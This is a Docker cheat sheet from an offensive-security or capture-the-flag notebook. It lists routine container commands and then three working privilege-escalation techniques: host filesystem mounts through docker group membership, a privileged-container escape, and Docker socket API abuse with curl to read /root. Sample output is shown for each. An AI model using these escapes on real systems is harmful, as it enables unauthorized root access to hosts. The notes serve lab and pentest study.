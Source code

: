 ```yaml
---
title: "Docker"
date: 2024-7-3
tags: ["Forensic", "Docker", "Container", "Dive"]
---
```


### Basic Commands

```console
# Show All Running Docker Processes
sudo docker ps -a
```

```console
# Show All Docker Images
sudo docker images -a
```

```console
# Stop All Docker Processes
sudo docker stop $(sudo docker ps -a -q)
```

```console
# Remove All Docker Processes
sudo docker rm -vf $(sudo docker ps -a -q)
```

```console
# Remove All Docker Images
sudo docker rmi -f $(sudo docker images -aq)
```

```console
# Shell in Container
sudo docker exec -it <CONTAINER_ID> bash
```

```console
# Privileged Shell in Container
sudo docker exec -it --privileged --user root <CONTAINER_ID> bash
```

```console
# Copy File from Host to Container
sudo docker cp <HOST_FILE_PATH> <CONTAINER_ID>:<CONTAINER_FILE_PATH>
```

```console
# Copy File from Container to Host
sudo docker cp <CONTAINER_ID>:<CONTAINER_FILE_PATH> <HOST_FILE_PATH>
```

```console
# Copy Folder from Host to Container
sudo docker cp <HOST_FOLDER_PATH>/. <CONTAINER_ID>:<CONTAINER_TARGET_PATH>
```

```console
# Copy Folder from Container to Host
sudo docker cp <CONTAINER_ID>:<CONTAINER_FOLDER_PATH>/. <HOST_TARGET_PATH>
```

---

### Explore Docker image

{{< tab set1 tab1 >}}dive{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
dive docker-archive://image.tar
```

<small>*Ref: [dive](https://github.com/wagoodman/dive)*</small>

{{< /tabcontent >}}

---

### Abuse #1: Docker group

```console
# List Docker Images
docker images
```

```console {class="sample-code"}
$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    d7d3d98c851f   2 years ago   5.53MB
```

```console
# Mount Host root Filesystem
docker run -v /:/mnt -it <IMAGE_ID> sh
```

```console {class="sample-code"}
$ docker run -v /:/mnt -it d7d3d98c851f sh  
/ # 
```

```console
# Check
ls /mnt/root
```

```console {class="sample-code"}
/ # ls /mnt/root
root.txt
```

---

### Abuse #2: Docker Escape (With Root)

```console
# Take Note of the Host Mount
mount
```

```console
# Spawn root Shell
sudo docker exec -it --privileged --user root <CONTAINER_ID> bash
```

```console
# Mount Host root Filesystem
mount /dev/sda1 /mnt
```

```console
# Check
ls /mnt/root
```

---

### Abuse #3: Docker API

```console
# Show Running Containers
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

```console {class="sample-code"}
root@2d24bf61767c:/root# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
[{"Containers":-1,"Created":1590787186,"Id":"sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e","Labels":null,"ParentId":"","RepoDigests":null,"RepoTags":["sandbox:latest"],"SharedSize":-1,"Size":5574537,"VirtualSize":5574537},{"Containers":-1,"Created":1588544489,"Id":"sha256:188a2704d8b01d4591334d8b5ed86892f56bfe1c68bee828edc2998fb015b9e9","Labels":null,"ParentId":"","RepoDigests":["<none>@<none>"],"RepoTags":["<none>:<none>"],"SharedSize":-1,"Size":1056679100,"VirtualSize":1056679100}]
```

```console
# Create Container
curl -s -X POST -H 'Content-Type: application/json' --data-binary '{"Image": "<IMAGE_NAME>:latest","HostConfig": {"Binds": ["/:/r"]}, "Cmd": ["/bin/sh", "-c", "ls -la /r/root/"], "Tty": true}' --unix-socket /var/run/docker.sock http://localhost/containers/create
```

```console {class="sample-code"}
(remote) root@2d24bf61767c:/root# curl -s -X POST -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/r"]}, "Cmd": ["/bin/sh", "-c", "ls -la /r/root/"], "Tty": true}' --unix-socket /var/run/docker.sock http://localhost/containers/create
{"Id":"ec28a9d1ae931fb81ac1c2640d1aac24bf1e7172bd6c42f02400659c299157cd","Warnings":[]}
```

```console
# Start Container
curl -i -X POST -H 'Content-Type: application/json' --unix-socket /var/run/docker.sock http://localhost/containers/<CONTAINER_ID>/start
```

```console {class="sample-code"}
(remote) root@2d24bf61767c:/root# curl -i -X POST -H 'Content-Type: application/json' --unix-socket /var/run/docker.sock http://localhost/containers/9115/start
HTTP/1.1 204 No Content
Api-Version: 1.40
Docker-Experimental: false
Ostype: linux
Server: Docker/19.03.8 (linux)
Date: Mon, 23 Sep 2024 04:29:11 GMT
```

```console
# Show Results
curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/<CONTAINER_ID>/logs?stderr=1&stdout=1"
```

```console {class="sample-code"}
(remote) root@2d24bf61767c:/root# curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/9115/logs?stderr=1&stdout=1"
total 56
drwx------    6 root     root          4096 Sep 23 04:06 .
drwxr-xr-x   20 root     root          4096 Feb  9  2021 ..
lrwxrwxrwx    1 root     root             9 Jun 17  2020 .bash_history -> /dev/null
-rw-r--r--    1 root     root          3106 Dec  5  2019 .bashrc
drwx------    2 root     root          4096 Jun 30  2020 .cache
drwxr-xr-x    3 root     root          4096 Jun 30  2020 .local
-rw-r--r--    1 root     root           161 Dec  5  2019 .profile
-rw-r--r--    1 root     root            75 Jun 30  2020 .selected_editor
drwx------    2 root     root          4096 Jun 30  2020 .ssh
-rw-------    1 root     root         12235 Aug 26  2020 .viminfo
-rw-r--r--    1 root     root           165 Jun 30  2020 .wget-hsts
-rw-------    1 root     root            33 Sep 23 04:06 root.txt
drwxr-xr-x    3 root     root          4096 May 18  2020 snap
```
